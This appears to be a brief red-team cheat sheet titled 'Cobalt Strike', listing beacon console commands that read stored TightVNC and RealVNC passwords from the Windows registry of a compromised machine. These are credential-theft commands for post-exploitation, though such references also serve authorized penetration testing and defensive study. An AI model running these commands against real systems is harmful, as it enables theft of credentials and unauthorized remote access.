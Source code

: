 # Cobalt Strike

## 01 - TightVNC

```
beacon> reg queryv x64 HKCU\SOFTWARE\TightVNC\Server Password
```

## 02 - RealVNC

```
beacon> reg query x64 HKCU\Software\ORL\WinVNC3\Password

beacon> reg queryv x64 HKLM\SOFTWARE\RealVNC\WinVNC4 password
```